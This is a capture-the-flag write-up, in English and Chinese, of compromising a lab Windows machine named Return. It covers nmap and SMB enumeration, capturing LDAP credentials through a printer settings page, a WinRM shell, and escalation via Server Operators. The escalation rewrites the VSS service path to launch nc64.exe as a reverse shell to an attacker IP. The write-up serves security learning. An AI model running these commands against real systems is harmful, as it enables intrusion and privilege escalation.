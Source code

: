 1,Enumeration
port scan (nmap)
80/tcp http
445/tcp smb
check the smb client:
	`crackmapexec smb 10.10.11.108 --shares`

crackmapexec shows that the hostname os PRINTER.return.local, and I need auth to get any additional information from SMB:

Directory Brute Force
`ffuf -u http://10.10.11.108/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`

But there is still nothing useful

2,check the website pages
there are a settings page, let's try to find some passwords.

in namp feedback, there is a interesting thing LDAP
	`389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)`
in burpsuite, we get 
![[Pasted image 20240722085909.png]]
browsers will take POST request to one ip (The other three fields in the form are not even sent. If the page does anything with this input, the user can only change the host (or “ip”), and not the port, username, or password.)

so try to change it to our tun0 ip address and check it.
![[Pasted image 20240722090150.png]]
we get something really like password and we have known the username:
"svc-printer"
so we can get credits: 
	`svc-printer:1edFg43012!!`

Let's come back to the smb client and try to use this credit to login.
	`crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'`

![[Pasted image 20240722090621.png]]

Most interestingly, they also work for WinRM:

![[Pasted image 20240722090827.png]]

So use evil-winrm to connect it.
And we successfully get shell and take the user.txt.

3,Privilege Escalation
enumerate the interesting privileges and groups

![[Pasted image 20240722091346.png]]


![[Pasted image 20240722091325.png]]

There may be others of interest, but Server Operators jumps out immediately. This group can do a lot of things:
![[Pasted image 20240722092912.png]]

This user can modify, start, and stop services, so I’ll abuse this by having it run nc64.exe to give a reverse shell.

sc.exe 是 Windows 服务控制管理工具，它允许用户从命令行管理服务。sc.exe config 命令特别用于配置服务的属性，例如服务的可执行文件路径、启动类型等。

sc.exe config vss binPath= "C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"：这行命令是试图重新配置 vss 服务，使其执行 nc.exe 来创建一个反向 shell，连接到 IP 地址 10.10.14.2 的 1234 端口。

选择利用 vss 服务（Volume Shadow Copy Service）来执行命令是因为 vss 服务通常默认存在于 Windows 系统中，并且可能处于启用状态。利用 vss 服务来执行命令的主要原因如下：

1.默认存在：vss 服务在大多数 Windows 系统中默认存在，并且可能已经处于启用状态，这使其成为一个潜在的目标。
2.高权限：作为一个系统服务，vss 通常以系统权限运行。这意味着如果能够成功修改其可执行文件路径并启动服务，攻击者可以获得高权限执行的能力。
3.隐蔽性：通过修改一个合法的系统服务，攻击者的行为可能更难被立即发现，尤其是在不受信任的网络环境中。

Privilege Escalation 步骤
1.确认权限：确保你有管理员权限，因为更改服务配置需要管理员权限。
2.打开命令提示符：以管理员身份运行命令提示符。
3.运行命令：执行以下命令来修改 vss 服务的可执行文件路径

	sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd 10.10.16.8 443"

	`sc.exe start VSS`

then we can get root shell.

There are better shell:
When the service fails to start in a service way (there are specific requirements for a service binary), then it kills the running process. If I have the service binary actually be cmd.exe, and have that start nc64.exe, then the nc64.exe will continue even after cmd.exe is killed:
当服务无法以服务方式启动时（对服务二进制文件有特定要求），它会终止正在运行的进程。如果我的服务二进制文件实际上是 cmd.exe ，并且启动 nc64.exe ，那么即使在 cmd.exe 被杀死后 nc64.exe 也会继续:

	`sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.16.8 443"`

	`sc.exe start VSS`
 The shell comes back and lives past the timeout:


